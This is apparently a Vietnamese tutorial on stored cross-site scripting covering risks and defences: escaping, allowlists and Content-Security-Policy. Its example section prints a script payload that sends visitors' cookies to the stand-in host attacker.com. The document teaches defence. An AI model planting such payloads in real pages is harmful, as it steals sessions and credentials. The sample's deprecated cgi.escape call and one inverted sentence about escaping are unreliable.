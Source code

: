 # Cross-Site Scripting
## 1. Khái Niệm
- **Cross-Site Scripting(XSS)**: Lỗ hổng XSS cho phép người dùng độc hại thực thi các đoạn JavaScript tùy ý khi người dùng khác truy cập trang web của bạn.
- **Cross-Site Scripting** là một trong những phương pháp tấn công phổ biến nhất mà các hacker sử dụng để tấn công các trang web.
### Ví dụ:
*"Một trang web thương mại điện tử cho phép người dùng gửi nhận xét về các sản phẩm. Trang web này cho phép người dùng nhập một đánh giá và hiển thị nó trên trang sản phẩm tương ứng."*
#
Một kẻ tấn công muốn thực hiện một cuộc tấn công XSS để đánh cắp thông tin đăng nhập của người dùng khi họ truy cập vào trang sản phẩm.
Kẻ tấn công thêm một bình luận chứa mã JavaScript độc hại vào trường đánh giá.
```javascript
<script>
  // Gửi cookie của người dùng đến kẻ tấn công
  var img = new Image();
  img.src = 'http://attacker.com/steal?cookie=' + document.cookie;
</script>
```
>Khi một người dùng khác truy cập vào trang sản phẩm và xem bình luận này, mã JavaScript độc hại sẽ được thực thi trên trình duyệt của họ. Điều này sẽ gửi cookie của người dùng đến máy chủ của kẻ tấn công, cho phép họ đánh cắp thông tin đăng nhập của người dùng.
## 2. Nguy Cơ
***Một cuộc tấn công XSS nghiêm túc có thể gây ra những hậu quả nào?***
1. Lây lan các loại mã độc trên các trang mạng xã hội phổ biến như Facebook, Twitter và YouTube.
2. Đánh cắp phiên đăng nhập (session hijacking): Mã JavaScript độc hại có thể gửi ID phiên đến một máy chủ từ xa dưới sự kiểm soát của hacker, cho phép hacker giả mạo người dùng bằng cách chiếm quyền điều khiển phiên đang hoạt động.
3. Đánh cắp danh tính: Thông qua việc người dùng nhập thông tin nhạy cảm như số thẻ tín dụng vào một trang web đã bị chiếm đoạt, các chi tiết này có thể bị đánh cắp bằng JavaScript độc hại.
4. Tấn công từ chối dịch vụ (DoS) và phá hoại trang web: Tấn công DoS để làm gián đoạn hoạt động và gây thiệt hại cho trang web.
5. Đánh cắp dữ liệu nhạy cảm như mật khẩu, đe dọa tài khoản người dùng và có thể dẫn đến các vụ vi phạm bảo mật khác.
6. Tiến hành gian lận tài chính trên các trang web ngân hàng bằng cách khai thác lỗ hổng XSS để thao túng các giao dịch hoặc trích xuất thông tin ngân hàng nhạy cảm.

## 3. Biện pháp bảo vệ
*"Để bảo vệ khỏi các cuộc tấn công XSS được lưu trữ, hãy đảm bảo mọi nội dung động đến từ kho lưu trữ dữ liệu đều không thể được sử dụng để chèn JavaScript vào một trang."*
***Đây là yêu cầu cốt lõi***
### Escape Dynamic Content
Các cuộc tấn công XSS sử dụng cách xử lý không đúng đối với nội dung động **(Dynamic Content)** được lấy từ một cơ sở dữ liệu backend. Kẻ tấn công lạm dụng một trường có thể chỉnh sửa bằng cách chèn mã JavaScript, sau đó mã này được đánh giá trong trình duyệt khi một người dùng khác truy cập trang đó.  

Vì vậy, hiếm khi bạn muốn người dùng của mình tạo ra đoạn mã HTML chưa được xử lý **(raw HTML)**. Thay vào đó, bạn nên *tránh thoát tất cả nội dung động* được lấy từ cơ sở dữ liệu, để trình duyệt biết rằng nó cần được xử lý như là nội dung của các thẻ HTML, không phải là HTML chưa xử lý.  

Việc thoát nội dung động thường bao gồm việc thay thế các ký tự quan trọng bằng mã HTML entities:

|Character|	Encoding|  
|:--------|:-------|
|<        |	&#60   |  
|>        |	&#62   |  
|&        |	&#38   |  
|"        |	&#34   |  
|'        |	&#39   |  
**Ví dụ về Escape dynamic content:**
```python
    import cgi

    # Giả sử comment là nội dung động từ cơ sở dữ liệu
    comment_from_database = "<script>alert('XSS attack!');</script>"

    # Escape nội dung động trước khi hiển thị trên trang web
    escaped_comment = cgi.escape(comment_from_database)

    # In ra nội dung đã được escape
    print(escaped_comment)
```
**Output thu được:**
```console
    &lt;script&gt;alert(&#x27;XSS attack!&#x27;);&lt;/script&gt;
```
### Allowlist Values
Giảm thiểu rủi ro XSS bằng cách hạn chế dữ liệu được nhập vào và đảm bảo rằng chỉ các giá trị được xác định trước mới được phép hiển thị.  
**Ví dụ**:Thay vì yêu cầu người dùng nhập quốc gia cư trú của họ, thì tốt nhất là yêu cầu họ chọn từ một danh sách thả xuống có sẵn bao gồm tên các quốc gia.

### Implement a Content-Security Policy
**Triển khai Chính sách Bảo mật Nội dung** ***(Content-Security Policy - CSP)*** là một cách mạnh mẽ để tăng cường tính bảo mật cho ứng dụng web của bạn chống lại các cuộc tấn công XSS. Dưới đây là cách triển khai CSP:  

 1. ***Hiểu về CSP***: CSP cho phép bạn xác định các quy tắc về nơi mà các tài nguyên như JavaScript có thể được tải và thực thi trên trang web của bạn. Điều này giúp ngăn chặn các cuộc tấn công XSS bằng cách hạn chế nơi mà các script có thể xuất phát từ.  
 2. ***Thiết lập CSP trong Header Phản hồi***: Bạn có thể thiết lập CSP trong header phản hồi của máy chủ web của bạn. Dưới đây là một ví dụ về header CSP cho phép các script chỉ từ cùng một nguồn gốc và từ "https://apis.google.com":
    ```
    Content-Security-Policy: script-src 'self' https://apis.google.com
    ```
 3. ***Sử dụng CSP trong Thẻ <meta>***: Hoặc, bạn có thể bao gồm các chỉ thị CSP trực tiếp trong thẻ <meta> trong phần tử <head> của tài liệu HTML của bạn:
    ```
    <meta http-equiv="Content-Security-Policy" content="script-src 'self' https://apis.google.com">
    ```
 4. ***Thực thi CSP***: Bằng cách xác định các nguồn được phép cho các script, bạn mặc định không cho phép JavaScript nằm trong trang, đây là một cách tiếp cận hiệu quả để ngăn chặn các cuộc tấn công XSS.
 5. ***Báo cáo Vi phạm CSP***: Để làm cho quá trình chuyển đổi dễ dàng hơn và đảm bảo rằng cài đặt CSP của bạn không gây ra vấn đề không mong muốn, bạn có thể sử dụng Báo cáo Vi phạm CSP. Bằng cách thêm một chỉ thị report-uri trong header chính sách của bạn, trình duyệt sẽ gửi báo cáo về bất kỳ vi phạm chính sách nào thay vì chặn JavaScript nội tuyến:
    ```
    Content-Security-Policy-Report-Only: script-src 'self'; report-uri https://example.com/csr-reports
    ```
## 4. Tổng Kết:
- **XSS** là một trong những mối đe dọa lớn nhất đối với bảo mật của các trang web.
- Bằng cách triển khai các biện pháp phòng chống XSS hiệu quả như trên, chúng ta có thể giảm thiểu rủi ro và bảo vệ dữ liệu người dùng khỏi các cuộc tấn công độc hại.
